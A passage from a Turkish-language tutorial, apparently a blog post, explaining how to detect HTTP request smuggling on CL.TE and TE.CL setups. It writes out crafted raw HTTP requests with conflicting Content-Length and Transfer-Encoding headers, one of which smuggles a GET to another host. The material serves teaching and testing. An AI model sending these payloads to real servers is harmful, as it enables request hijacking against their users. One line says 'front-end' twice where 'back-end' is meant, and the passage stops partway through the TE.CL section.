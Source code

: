           GPOST /search HTTP/1.1
          Host: normal-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 22

          q=Bu_sıradan_bir_istek

Yazdığımız G bir sonraki POST isteğinin başına geldi. Sunucu bu durumda timeout olana kadar yanıt veremeyecek, biz de burada bir HTTP Request Smuggling açığı olduğunu öğreneceğiz.

#### b) Farklı İsteklerle Açık Tespiti

Peki biz G yerine başka bir şey yazsak ne olur? Mesela başka bir istek yazalım;

          POST /search HTTP/1.1
          Host: normal-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 11
          Transfer-Encoding: chunked

          0

          GET / HTTP/1.1
          Host: fatihfurkan.site

Back-end burada GET metoduyla yazdığımız isteği, kendisine gelecek bir sonraki isteğin başına ekler. Yani başka normal bir istek geldiğinde aşağıdakine benzer bir şey ortaya çıkaracak;

          GET / HTTP/1.1
          Host: fatihfurkan.sitePOST /search HTTP/1.1
          Host: normal-website.com
          Content-Type: application/x-www-form-urlencoded
          Content-Length: 11
          Transfer-Encoding: chunked

          0

Böyle bir istekte URL anlamlı olmadığından dolayı 404 HTTP hata kodu alacağız. Hata aldığımız için de sunucunun HTTP Request Smuggling açığına zaaflı olduğunu öğreneceğiz.


### 2) TE.CL Sistemler

Şimdi, hedef sistemimiz front-end'de TE, front-end'de CL kullandığını varsayalım. Sisteme giden normal bir istek şuna benzer olur:

          POST /search HTTP/1.1
          Host: normal-website.com
          Content-Type: application/x-www-form-urlencoded
          Transfer-Encoding: chunked

          b
          q=smuggling
          0

#### a) Zaman Bazlı Açık Tespiti

Sunucuya şöyle bir istek atarsak:
